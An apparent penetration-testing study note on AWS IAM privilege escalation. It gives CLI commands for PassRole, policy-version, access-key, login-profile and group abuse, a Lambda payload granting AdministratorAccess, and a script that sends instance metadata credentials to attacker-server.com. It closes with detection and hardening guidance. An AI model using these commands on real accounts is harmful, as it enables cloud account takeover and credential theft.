

# 62.01 AWS IAM Privilege Escalation Advanced Vectors

## 1. Introduction to Advanced IAM Exploitation

Identity and Access Management (IAM) is the central control plane of AWS. It determines who is authenticated and authorized to use resources. Misconfigurations in IAM policies, roles, and trust relationships frequently lead to privilege escalation (PrivEsc), where an attacker with low-level permissions can elevate their access to full administrative control over an AWS account. 

This note dives into advanced privilege escalation vectors, analyzing not just the basic misconfigurations, but complex chaining of permissions, implicit trusts, pass-role attacks, and cross-account vulnerabilities. The complexity of IAM often leads to "Shadow Admins"—identities that do not have `AdministratorAccess` explicitly but possess combinations of permissions that allow them to grant it to themselves.

### 1.1 The Concept of Privilege Escalation in AWS

Privilege escalation in AWS is fundamentally different from traditional OS-level escalation. In AWS, PrivEsc occurs when an identity (User, Role, or Group) possesses permissions that allow it to indirectly grant itself more permissions, or to assume another identity that has higher privileges. 

This is often categorized into:
- **Direct Permission Modification**: E.g., `iam:PutUserPolicy`, `iam:CreatePolicyVersion`, `iam:SetDefaultPolicyVersion`.
- **Resource Assumption/Attachment**: E.g., `iam:PassRole`, `sts:AssumeRole`.
- **Credential Generation**: E.g., `iam:CreateAccessKey`, `iam:CreateLoginProfile`.
- **Group Manipulation**: E.g., `iam:AddUserToGroup`.

## 2. ASCII Architecture Diagram: IAM PassRole to Admin



## 3. Vector 1: iam:PassRole and Compute Services

The `iam:PassRole` permission is one of the most dangerous and commonly abused permissions in AWS. It allows an identity to pass an IAM role to an AWS service (like EC2, Lambda, or ECS) so that the service can assume the role and perform actions on behalf of the user. Without `iam:PassRole`, a developer cannot deploy a Lambda function that accesses DynamoDB. However, if overly permissive, it becomes a severe vulnerability.

### 3.1 Exploitation via EC2 (`ec2:RunInstances` + `iam:PassRole`)

If an attacker has `ec2:RunInstances` and `iam:PassRole` over a highly privileged role (e.g., an Admin role), they can launch a new EC2 instance, attach the Admin role to the instance as an Instance Profile, and then execute code on the instance to extract the STS credentials.

**Prerequisites:**
- `ec2:RunInstances`
- `iam:PassRole` on an Admin Role.
- Optionally, `ec2:DescribeImages`, `ec2:DescribeSubnets`, `ec2:DescribeSecurityGroups` to gather deployment parameters.
- SSH key pair or `UserData` execution capability.

**Execution Steps:**

1. **Identify Roles:**
   The attacker enumerates roles they can pass. 
   ```bash
   aws iam list-roles
   ```

2. **Launch Instance with UserData:**
   The attacker launches an instance and injects a script via `--user-data` that will extract the temporary credentials from the Instance Metadata Service (IMDS) and exfiltrate them.
   ```bash
   aws ec2 run-instances \
     --image-id ami-0abcdef1234567890 \
     --instance-type t2.micro \
     --iam-instance-profile Name=AdminRoleProfile \
     --user-data file://exfil_script.sh
   ```

   **Exfil Script Example:**
   ```bash
   #!/bin/bash
   TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
   CREDS=`curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/AdminRole`
   curl -X POST -d "$CREDS" https://attacker-server.com/exfil
   ```

### 3.2 Exploitation via Lambda (`lambda:CreateFunction` + `lambda:InvokeFunction` + `iam:PassRole`)

Similar to EC2, if an attacker can create and invoke a Lambda function, and can pass a role to it, they can escalate privileges. This vector is often stealthier than EC2 as it doesn't leave running infrastructure that billing alarms might catch.

**Prerequisites:**
- `lambda:CreateFunction`
- `lambda:InvokeFunction`
- `iam:PassRole`

**Execution Steps:**

1. **Create Malicious Code:**
   The attacker writes a Lambda function that attaches an inline policy to their own user, granting AdministratorAccess, or returns the temporary STS credentials of the assigned role.
   
   ```python
   import boto3
   def lambda_handler(event, context):
       client = boto3.client('iam')
       response = client.attach_user_policy(
           UserName='attacker_user',
           PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
       )
       return response
   ```

2. **Zip and Deploy:**
   ```bash
   zip payload.zip lambda_function.py
   aws lambda create-function \
     --function-name PrivEsc \
     --runtime python3.9 \
     --role arn:aws:iam::123456789012:role/AdminRole \
     --handler lambda_function.lambda_handler \
     --zip-file fileb://payload.zip
   ```

3. **Invoke Function:**
   ```bash
   aws lambda invoke --function-name PrivEsc output.txt
   ```

## 4. Vector 2: Policy Versioning Abuse (`iam:CreatePolicyVersion`)

AWS allows IAM policies to have multiple versions (up to 5 managed policy versions). If a user has the `iam:CreatePolicyVersion` permission, they can create a new version of an existing policy attached to their user, and set it as the default version.

### 4.1 The Vulnerability

When a new policy version is created, the user can define arbitrary permissions within that version. If the user can set this new version as the default (`--set-as-default`), the new permissions take immediate effect.

**Prerequisites:**
- `iam:CreatePolicyVersion`

**Execution Steps:**

1. **Identify Attached Policies:**
   ```bash
   aws iam list-attached-user-policies --user-name attacker
   ```

2. **Create a Malicious Policy Document:**
   Save as `admin-policy.json`:
   ```json
   {
       "Version": "2012-10-17",
       "Statement": [
           {
               "Effect": "Allow",
               "Action": "*",
               "Resource": "*"
           }
       ]
   }
   ```

3. **Create and Set New Version:**
   ```bash
   aws iam create-policy-version \
     --policy-arn arn:aws:iam::123456789012:policy/SomePolicy \
     --policy-document file://admin-policy.json \
     --set-as-default
   ```
   If `--set-as-default` is restricted but `iam:SetDefaultPolicyVersion` is allowed separately, the attacker performs this in two steps.

## 5. Vector 3: Access Key Generation (`iam:CreateAccessKey`)

If a user has `iam:CreateAccessKey` permissions on other users, they can generate new access keys for higher-privileged users without knowing their passwords.

### 5.1 Exploitation Scenario

1. **Enumerate Users:**
   ```bash
   aws iam list-users
   ```
2. **Identify Admin User:**
   The attacker identifies a user named `cloud_admin`.
3. **Generate Keys:**
   ```bash
   aws iam create-access-key --user-name cloud_admin
   ```
   The output returns the `AccessKeyId` and `SecretAccessKey`, which the attacker can immediately use.

**Limitation:** A user can only have a maximum of two active access keys. If the admin user already has two keys, this attack will fail unless the attacker also has `iam:DeleteAccessKey` or `iam:UpdateAccessKey` permissions to delete an old key first.

## 6. Vector 4: AssumeRole Trust Policy Misconfigurations

The `sts:AssumeRole` action is the mechanism for temporarily acquiring the permissions of a role. The ability to assume a role is dictated by the role's **Trust Policy** (AssumeRolePolicyDocument).

### 6.1 Overly Permissive Trust Policies (The Confused Deputy)

Sometimes a role's trust policy is configured to trust an entire AWS account rather than a specific user or role within that account.
```json
{
  "Effect": "Allow",
  "Principal": {
    "AWS": "arn:aws:iam::123456789012:root"
  },
  "Action": "sts:AssumeRole"
}
```
If an attacker compromises any identity in account `123456789012` that has the `sts:AssumeRole` permission, they can assume this role. This is particularly dangerous in cross-account setups where a vendor account has overly broad trust relationships with a client account.

### 6.2 Bypassing ExternalId Restrictions

To prevent the "Confused Deputy" problem, AWS recommends using an `ExternalId`. However, if the `ExternalId` is weak, brute-forceable, or leaked in public repositories or CloudTrail logs, the attacker can still assume the role.

```bash
aws sts assume-role \
  --role-arn arn:aws:iam::TARGET_ACCOUNT:role/VendorAccess \
  --role-session-name HackSession \
  --external-id "known_weak_id"
```

## 7. Vector 5: Login Profile Creation (`iam:CreateLoginProfile`)

If an attacker has `iam:CreateLoginProfile` permissions, they can assign a password to a user that currently only uses Access Keys, enabling console access. Alternatively, with `iam:UpdateLoginProfile`, they can change the password of an existing administrator.

### 7.1 Exploitation
```bash
aws iam create-login-profile \
  --user-name admin_user \
  --password 'Pwned123!@#' \
  --no-password-reset-required
```
The attacker can then log into the AWS Management Console as `admin_user`.

## 8. Vector 6: IAM Group Manipulation (`iam:AddUserToGroup`)

If a user can add themselves (or another user they control) to an existing IAM group, they inherit all permissions attached to that group.

### 8.1 Exploitation
1. **Enumerate Groups:**
   ```bash
   aws iam list-groups
   ```
2. **Add User to Admin Group:**
   ```bash
   aws iam add-user-to-group \
     --group-name AdminGroup \
     --user-name attacker_user
   ```

## 9. Detection and Threat Hunting

Detecting IAM privilege escalation requires robust logging and monitoring, primarily via **AWS CloudTrail**.

### 9.1 CloudTrail Event Analysis

Security teams should alert on the following CloudTrail events, especially when performed by low-privileged identities or non-administrative roles:

- `CreatePolicyVersion`
- `SetDefaultPolicyVersion`
- `CreateAccessKey`
- `UpdateLoginProfile`
- `CreateLoginProfile`
- `AttachUserPolicy`, `AttachRolePolicy`, `AttachGroupPolicy`
- `PutUserPolicy`, `PutRolePolicy`, `PutGroupPolicy`
- `AddUserToGroup`
- `UpdateAssumeRolePolicy`

### 9.2 Detecting `iam:PassRole` Abuse

Detecting `iam:PassRole` abuse is challenging because passing roles is a normal operational activity. To distinguish malicious behavior:
1. **Correlate Events:** Look for a `RunInstances` or `CreateFunction` event followed immediately by anomalous API calls from the newly assumed role.
2. **Monitor the `PassRole` Event:** Look for the `PassRole` event in CloudTrail where the `requestParameters.roleArn` is a highly privileged role, and the caller is not an expected automation principal.

## 10. Remediation and Hardening

1. **Principle of Least Privilege (PoLP):** Never grant wildcard `iam:*` permissions. Explicitly define which users can create policies or update login profiles.
2. **Restrict `iam:PassRole`:** Use resource constraints in IAM policies to limit which roles can be passed. 
   ```json
   {
       "Effect": "Allow",
       "Action": "iam:PassRole",
       "Resource": "arn:aws:iam::123456789012:role/SpecificAppRole"
   }
   ```
3. **Use Permission Boundaries:** Permission boundaries restrict the maximum permissions that an IAM identity can have, effectively preventing them from escalating beyond the boundary, even if they create a full admin policy.
4. **Enforce MFA:** Require MFA for all `sts:AssumeRole` calls, particularly for administrative roles, using the `aws:MultiFactorAuthPresent` condition key.
5. **Continuous Auditing:** Regularly audit roles with high privileges and remove unused access keys and passwords. Use tools like PMapper (Principal Mapper) to visualize and identify privilege escalation paths.

## 11. Chaining Opportunities

- **SSRF to IAM PrivEsc:** Exploit a web vulnerability (SSRF) on an EC2 instance to steal the attached IAM role's metadata credentials. If that role has IAM modification permissions, use the techniques above to escalate to full Admin. (`[[02 - AWS SSRF to Metadata and IMDSv2 Bypass]]`)
- **Lambda Function Exploitation:** Use compromised Lambda functions to execute local PrivEsc scripts that abuse `iam:PassRole`. (`[[04 - Exploiting AWS Lambda and Serverless Functions]]`)

## 12. Related Notes
- [[02 - AWS SSRF to Metadata and IMDSv2 Bypass]]
- [[04 - Exploiting AWS Lambda and Serverless Functions]]
- [[05 - API Gateway Authorization Bypasses]]
